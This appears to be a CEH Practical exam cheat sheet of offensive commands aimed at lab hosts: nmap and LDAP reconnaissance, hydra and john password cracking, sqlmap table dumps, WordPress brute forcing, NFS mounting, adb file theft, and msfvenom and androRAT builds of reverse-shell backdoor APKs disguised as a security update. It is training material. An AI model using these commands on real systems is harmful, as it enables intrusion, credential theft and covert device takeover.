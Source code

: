 # **CEH Practical Notes**

Geolocation BillCipher

```
nmap --script vuln xx.xx.xx.xx
```

```
ldapsearch -h 10.10.10.25 -x -s base namingcontexts
ldapsearch -h 10.10.10.25 -x -b "cn=users,dc=CEHORG,dc=COM" "(objectclass=user)" | grep dn 
ldapsearch -x -b "dc=cehorg,dc=com" "*" -h 10.10.10.25 | awk '/dn: / {print $2}' 
```

dig AXFR yourdomain.com @ns


FQDN/Netbios name	nmap -p 445 --script smb-os-discovery 10.10.10.25 or nmap -T4 -p 445 -sC 10.10.10.25

DNS Computer Name	3389

SMB Message signing	nmap -T4 -p 445 -sC 10.10.10.25

whatweb www.certifiedhacker.com

```
john --format=NT hashes.txt
john --show --format=NT
```

```
cd Desktop/CEHtab13
cd Wordlist
hydra -L Usernames.txt -P Passwords.txt ftp://172.16.0.12
```

**Wireshark filters** 
```
http.request.method==POST
tcp.flags.syn == 1 and tcp.flags.ack == 0  Statistics=>Ipv4 Statistics=>Source and Destination Addresses
tcp.flags.syn == 1 DoS 
tcp.srcport == 8888 and tcp.dstport == 9999
```
```
snow.exe -C -p password Confidential.txt
```

```
apt install nfs-common
showmount -e 172.16.0.11
mkdir -p /mnt/linux
mount -t nfs 172.16.0.11:/home /mnt/linux
ls -l /mnt/linux
```

PhoneSploit
4 - shell

9 - copy file /storage/self/primary/DCIM/capture.png or /sdcard/Download/confidential.txt

```
adb connect 172.16.0.21 5555
adb shell
adb pull /sdcard/Documents/confidential.txt
```
```
msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.10.1.13 R > Desktop/Backdoor.apk 

msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 10.10.1.13
exploit -j -z 

```
```
python3 androRAT.py --build -i 10.10.1.13 -p 4444 -o SecurityUpdate.apk 
python3 androRAT.py --shell -i 0.0.0.0 -p 4444 
```
```
https://www.sisik.eu/apk-tool
```
yersinia F2 x 1 q ==>Wireshark Transaction ID 0x643c9869

```
sqlmap --batch -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" --dbs
sqlmap --batch -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" -D moviescope --tables
sqlmap --batch -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" -D moviescope -T User_Login --dump
```

wpscan -U adam -P password.txt --url http://cehorg.com
```
msfconsole
use auxiliary/scanner/http/wordpress_login_enum
show options
set PASS_FILE password.txt
set RHOST 10.10.10.16
set RPORT 80
set TARGETURI http://cehorg.com
set USERNAME adam
set ENUMERATE_USERNAMES false
set verbose false
run
```
```
aircrack-ng WEP.pcap
aircrack-ng -a2 -w passwords.txt WPA2.pcap
```
```
https://www.shodan.io 
port:1883 ==> MQTT
ICS/SCADA systems port:502
```
